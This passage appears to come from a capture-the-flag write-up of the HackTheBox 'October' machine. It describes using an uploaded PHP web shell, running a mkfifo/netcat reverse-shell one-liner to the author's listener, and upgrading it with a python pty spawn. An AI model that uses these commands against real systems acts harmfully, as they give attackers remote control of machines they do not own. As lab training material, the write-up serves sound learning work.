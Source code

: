 I can access the php wb shell through `/storage/app/media/p0wny-shell.php5` and it works fine as **www-data**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/october/image-18.png)


### Reverse Shell

Running the following command towards my local netcat listener, it spawns a better shell:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 1337 >/tmp/f`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/october/image-19.png)

I can improve the shell using python as such:

`python2 -c 'import pty; pty.spawn("/bin/bash")'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/october/image-20.png)
